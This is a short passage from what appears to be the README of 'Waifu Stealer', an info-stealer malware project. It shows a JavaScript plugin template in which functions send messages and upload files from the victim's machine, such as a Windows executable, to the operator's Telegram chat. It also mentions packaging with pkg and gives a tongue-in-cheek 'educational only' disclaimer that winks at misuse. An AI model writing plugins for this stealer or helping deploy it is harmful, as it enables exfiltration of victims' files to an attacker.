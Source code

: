 ```js
/**
 * @typedef RunArg Waifu Stealer passed functions
 * @type {object}
 * @property {((text: string) => Promise<void>)?} sendMessageFn
 * @property {((filePath: string, filename: string, caption: string) => Promise<void>)?} uploadFileFn
 */

/**
 * @param {RunArg} arg0
 * @returns {Promise<string | void>}
 */
async function run({ sendMessageFn, uploadFileFn }) {
  // Your code here
  console.log('Hello World!')
  await sendMessageFn('Hello World Telegram!')
  await uploadFileFn(`C:\\Windows\\regedit.exe`, `regedit.exe`, 'hey, this is a regedit.exe')
  return 'This string will be printed to the Telegram chat too'
}

module.exports = { run }
```

**Note:** Do not use ESM as [pkg](https://github.com/vercel/pkg) does not support it.

## License

This is for educational purposes only, to understand how malwares work.

Do not use it maliciously or on any machines that you do not have the permission for(🤔). Be gentle, my dear, and don't hurt anyone.

I am not responsible for any harm you do with this shit, bruh, let me breath.

[The MIT license](./LICENSE)

